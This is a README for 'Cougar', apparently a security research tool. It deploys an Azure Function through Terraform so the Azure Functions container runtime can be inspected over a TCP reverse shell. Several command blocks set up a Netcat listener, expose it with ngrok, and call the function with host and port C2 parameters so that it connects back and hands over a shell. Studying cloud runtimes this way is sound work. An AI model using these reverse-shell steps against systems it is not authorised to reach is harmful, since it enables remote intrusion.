 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

### Terraform Deployment

```bash
az login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
cd cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function Id, Host, and API key via the CLI.

```bash
export COUGAR_FUNCTION_ID=$(terraform output --json | jq -r '.cougar_function_id.value')
export COUGAR_FUNCTION_HOST=$(terraform output --json | jq -r '.cougar_function_host.value')
export COUGAR_API_KEY=$(az rest --method post --uri "$COUGAR_FUNCTION_ID/host/default/listKeys?api-version=2018-11-01" | jq -r .functionKeys.default)
export COUGAR_FUNCTION_URL="https://$COUGAR_FUNCTION_HOST/api/Cougar"
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cougar --url $COUGAR_FUNCTION_URL --api-key $COUGAR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY&host=NGROK_PORT_IP&port=NGROK_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cougar.
